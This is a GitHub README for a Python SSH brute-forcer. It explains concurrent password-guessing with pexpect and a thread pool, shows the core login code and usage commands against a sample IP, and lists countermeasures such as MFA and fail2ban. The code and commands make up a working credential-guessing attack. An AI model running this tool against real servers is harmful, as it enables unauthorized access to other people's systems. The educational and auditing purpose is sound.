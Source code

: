 # Python SSH Brute-Forcer

This Python script is a command-line tool designed to demonstrate and audit the brute-force vulnerability of SSH (Secure Shell) services. It attempts to gain unauthorized access to an SSH server by systematically trying a list of usernames and passwords, highlighting the critical importance of strong credentials and robust security configurations.
⚠️ Disclaimer - IMPORTANT: Ethical Use Only ⚠️

This tool (python-ssh-bruteforcer) is provided strictly for educational, research, and ethical hacking purposes. Its use is limited to testing systems for which you have explicit, prior, and written authorization from the owner.

The creator of this tool is not responsible for any misuse, illegal activities, or damage caused by its deployment or operation. By using this tool, you acknowledge and agree to assume full responsibility for your actions and to comply with all applicable laws and regulations.
Project Purpose & Learning Objectives

This project was developed to:

    Demonstrate SSH Brute-Force Attacks: Illustrate how an attacker can attempt to guess SSH credentials using wordlists.

    Highlight SSH Security Weaknesses: Show the vulnerability of SSH services to brute-force attacks when weak passwords or common usernames are used, or when protective measures like account lockout are absent.

    Reinforce SSH Security Best Practices: Emphasize the critical importance of strong, unique passwords, multi-factor authentication, and robust server configurations.

    Showcase Concurrent Network Interaction: Demonstrate how to programmatically interact with network services like SSH using Python's pexpect library, leveraging ThreadPoolExecutor for efficient, concurrent login attempts.

How It Works

The bruteforcer.py script operates by:

    Parsing Arguments: It accepts command-line arguments for the target SSH server IP/hostname, a password wordlist, and optionally a username wordlist or a single username.

    Reading Wordlists: It reads potential passwords (and usernames, if provided) from the specified text files.

    Concurrent Login Attempts: It uses a ThreadPoolExecutor to manage multiple concurrent login attempts. Each username/password pair is submitted as a separate task to the thread pool, allowing the script to try many combinations in parallel.

    Thread-Safe Progress & Results: Global variables and threading.Lock objects are used to safely track the number of attempts and store any found credentials across multiple threads.

    Reporting Attempts: For each attempt (or periodically for large lists), it provides feedback on the progress.

    Reporting Success: If a successful login occurs, it prints the found username and password and attempts to gracefully shut down other active tasks.

Code Snippet (Core Concurrent Login Logic):

from concurrent.futures import ThreadPoolExecutor
from threading import Lock
import pexpect.pxssh

# Global variables for thread-safe access
found_credentials_lock = Lock()
found_credentials = []
attempt_count_lock = Lock()
current_attempts = 0

def attempt_login(host, username, password):
    """Attempts an SSH login for a single username/password pair."""
    global current_attempts
    with attempt_count_lock:
        current_attempts += 1
        # Progress printing logic here...

    try:
        s = pexpect.pxssh.pxssh(timeout=5) # Initialize pxssh for each thread
        s.login(host, username, password)
        with found_credentials_lock:
            found_credentials.append({'username': username, 'password': password})
            print(f"\n[!!!] VALID CREDENTIALS FOUND: {username}:{password}")
            s.logout()
            return True
    except pexpect.pxssh.ExceptionPxssh:
        pass # Authentication failed
    except Exception as e:
        print(f"[!] An unexpected error occurred for {username}:{password}: {e}")
    return False

# ... (in main function) ...
with ThreadPoolExecutor(max_workers=100) as executor:
    for username in usernames:
        for password in passwords:
            executor.submit(attempt_login, host, username, password)
    # ... logic to wait for futures or break early ...

Installation

To use this script, simply clone the repository:

git clone https://github.com/ghostface-security/python-ssh-bruteforcer.git && cd python-ssh-bruteforcer

This script requires the pexpect library. You can install it using pip:

pip install pexpect

Usage

    Prepare your wordlist files:

        Password Wordlist: Create a text file (e.g., passwords.txt) with one potential password per line.

        Username Wordlist (Optional): Create a text file (e.g., usernames.txt) with one potential username per line.
        (Note: Wordlist files are NOT included in this repository and must be sourced by the user for ethical testing purposes.)

    Run the script from your terminal:

        With a single username:

        python3 bruteforcer.py --target <target_ip> --passlist <path_to_passwords.txt> --username <single_username>

        Example:

        python3 bruteforcer.py -t 192.168.1.100 -p passwords.txt -U admin

        With a username wordlist:

        python3 bruteforcer.py --target <target_ip> --passlist <path_to_passwords.txt> --userlist <path_to_usernames.txt>

        Example:

        python3 bruteforcer.py -t 192.168.1.100 -p passwords.txt -u usernames.txt

Ethical Use Cases

    Personal Server Auditing: Test the strength of SSH credentials on your own servers or devices in a controlled lab environment.

    Educational Demonstrations: Use in a controlled lab to teach about SSH security, brute-force attacks, and the importance of strong authentication.

    Penetration Testing (with Authorization): As part of a professional penetration test, with explicit, prior, and written permission from the client, to identify weak SSH credentials.

Defensive Countermeasures

This tool highlights the critical need for robust SSH security. To protect against SSH brute-force attacks, it is imperative to implement:

    Strong, Unique Passwords: Enforce long, complex, and unique passwords for all SSH accounts.

    Multi-Factor Authentication (MFA): Implement MFA (e.g., TOTP, FIDO2 keys) for SSH logins. This is the most effective defense, as a compromised password alone will not grant access.

    SSH Key-Based Authentication: Prefer SSH key pairs over password authentication. Disable password authentication entirely if possible.

    Account Lockout Policies: Configure your SSH server (e.g., via pam_tally2 or fail2ban) to temporarily or permanently lock accounts after a certain number of failed login attempts.

    Rate Limiting: Use firewall rules or SSH server configurations to limit the number of connection attempts from a single IP address over time.

    Change Default Port: While not a security measure in itself, changing the default SSH port (22) can reduce the volume of automated brute-force attempts from general scanners.

    Use fail2ban: This popular intrusion prevention framework can automatically ban IP addresses that show malicious signs like too many failed login attempts.

License

This project is licensed under the MIT License - see the LICENSE file for details.
